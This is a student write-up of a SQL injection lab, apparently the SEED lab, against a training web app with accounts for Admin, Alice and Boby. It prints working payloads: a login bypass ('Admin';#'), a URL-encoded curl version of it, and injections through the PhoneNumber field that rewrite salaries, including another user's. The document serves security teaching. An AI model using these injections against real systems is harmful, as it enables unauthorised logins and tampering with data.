

# Task 1

As we want to have information about the credentials of employee Alice, we used a sql query to select the information from the credential table using 'Alice' as the name:



# Task 2.1

After reading the sql code for the login, we realized that it was possible to end the query earlier, after choosing the 'name', by simply closing out the single quotes, ending the query with ';' and commenting the rest.
Using this, we logged in as Admin:
```
Admin';#
```

# Task 2.2

Similar to the previous task, we logged in as Admin, but with the added difficulty of using curl, which made it so a few special characters such as the single quotes and the ';' had to be represented with their ASCII code in HEX, leaving us with the following expression:
```
curl 'www.seed-server.com/unsafe_home.php?username=Admin%27%3B%23&Password='
```

# Task 2.3

By examining the php code, we noticed the use of the function mysqli::query(), which made it so only one sql query could be executed.
Since updating the database would require the use of another query, it isn't something that could be done.

# Task 3.1

We logged in as Alice, using the same method as before, and, after looking at the code, we realized that the string used in the php which was comprised of a sql query could be altered in the PhoneNumber field, by changing its value and adding an ending which would allow us to alter the salary.
```php
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

To do that, we closed the single quote after the PhoneNumber value from input, allowing us to add an extra argument that would modify the salary column to the value we chose, purposefully not adding a single quote at the end as there was already one in the original string at the end. Thus, obtaining the following query:

```php
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’0', salary='100000000’
WHERE ID=$id;";
$conn->query($sql);
```

# Task 3.2

By altering the same string as in the previous task, we were able to change someone else's salary, 'Boby', by adding to the same method and creating our own 'where' clause to not use the 'id' but the name that was given by us, needing only to close the query with a ';' and commenting the rest. Thus, we changed the original query to the following:

```php
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’0', salary='1' where name='Boby';#
WHERE ID=$id;";
$conn->query($sql);
```
